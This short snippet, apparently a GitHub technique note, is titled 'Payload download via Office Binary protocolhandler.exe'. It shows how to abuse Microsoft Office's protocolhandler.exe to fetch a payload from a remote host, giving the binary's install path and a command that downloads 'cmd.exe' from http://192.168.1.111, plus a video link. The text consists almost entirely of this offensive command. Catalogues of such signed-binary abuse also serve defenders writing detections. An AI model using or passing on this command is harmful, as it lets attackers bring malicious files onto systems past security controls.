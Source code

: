 Payload download via Office Binary protocolhandler.exe

C:\[office installed folder]\root\[version]\
protocolhandler.exe "http://192.168.1.111/cmd.exe"

https://youtu.be/eUTFeRwZxH0 
